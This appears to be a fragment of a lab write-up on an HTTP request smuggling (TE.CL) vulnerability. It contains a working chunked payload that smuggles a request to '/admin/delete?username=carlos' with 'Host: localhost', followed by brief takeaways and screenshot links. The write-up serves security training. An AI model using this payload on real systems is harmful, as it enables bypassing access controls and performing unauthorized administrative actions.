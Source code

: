    ```sh

   87
   GET /admin/delete?username=carlos HTTP/1.1
   Host: localhost
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0
   ```

## 📖 Key Takeaways
- **Vulnerability type**: HTTP Request Smuggling (**TE.CL** – Transfer-Encoding: chunked, then Content-Length for the smuggled request).
- Back-end didn’t support chunked encoding, so the smuggled request had to use **Content-Length**.
- Include `Host: localhost` so the back-end accepts the request.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/7d460bba-d556-4404-97cb-1995d19fce91" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/704b2314-5205-4990-b34d-8f17b2792f8d" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/018e43ad-12a2-4f4f-8d69-250146269812" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/16140fc9-163d-4001-a5c7-41b6b5ce092e" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/bae07b90-ed72-4621-8376-77aeb3a64e13" />
